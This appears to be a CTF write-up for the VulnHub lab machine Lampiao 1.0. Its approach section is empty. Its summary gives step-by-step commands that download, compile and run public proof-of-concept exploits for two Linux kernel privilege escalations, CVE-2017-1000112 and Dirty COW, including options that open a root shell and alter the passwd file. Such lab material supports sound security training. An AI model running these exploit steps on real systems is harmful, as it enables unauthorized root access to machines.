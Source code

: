 # Lampiao 1.0

# Infomation

**Lampiao 1.0** is a vulnerable machine created by [VulnHub](https://www.vulnhub.com/entry/lampiao-1,249/). 

Lampião 1.0 是一个难度为初级的Boot2root/CTF挑战

描述：Virgulino Ferreira da Silva，绰号Lampião（油灯），是巴西东北地区最有名的土匪首领。

- [合天网安 VulnHub渗透测试实战靶场Lampiao 1.0](https://www.hetianlab.com/expc.do?ec=ECID2be0-d959-4d2b-8909-2db854f3c0a2)

# 思路






# 总结

## Linux内核逃逸 (CVE-2017-1000112) 提权

???+ tip "Linux内核逃逸 (CVE-2017-1000112)"

    Linux内核中的UDP碎片卸载(UFO)代码中的内存损坏问题可能导致本地特权的升级。

    影响范围：Linux Kernel < 4.12.3

[PoC](https://github.com/xairy/kernel-exploits/blob/master/CVE-2017-1000112/poc.c){ .md-button }

### Installation:

Compile the PoC:

- `curl -o poc.c https://raw.githubusercontent.com/xairy/kernel-exploits/master/CVE-2017-1000112/poc.c`
- `gcc poc.c -o poc`

Run the PoC:

- `./poc` # done, should be root now


## Dirty COW (CVE-2016-5195) 提权

???+ tip "Dirty COW"

    脏牛漏洞当年可以秒杀大部分Linux系统，但是现在已经修复了，所以这里就不再赘述了。
    
    影响范围：Linux Kernel >= 2.6.22（2007年发行）开始就受影响了，直到2016年10月18日才修复。

[PoC](https://github.com/gbonacini/CVE-2016-5195){ .md-button }   [Exploit](https://www.exploit-db.com/exploits/40847){ .md-button }

### Installation:

Compile the program: 

- `curl -o dcow.cpp https://raw.githubusercontent.com/gbonacini/CVE-2016-5195/master/dcow.cpp`

- `g++ -Wall -pedantic -O2 -std=c++11 -pthread -o dcow dcow.cpp -lutil`

Start the program:

- `./dcow`

or

- `./dcow -s` # Automatically open a root shell and restore the passwd file.

- `./dcow -s -n` # Automatically open a root shell but doesn't restore the passwd file.

Online help:

- `./dcow -h`

# 参考

- [CVE-2017-1000112漏洞分析](https://www.anquanke.com/post/id/92755#h2-18)
- [CVE-2017-1000112 PoC](https://github.com/xairy/kernel-exploits/blob/master/CVE-2017-1000112/poc.c)
- [CVE-2016-5195漏洞分析](https://www.anquanke.com/post/id/84772/)
- [CVE-2016-5195 PoC](https://github.com/gbonacini/CVE-2016-5195/blob/master/dcow.cpp)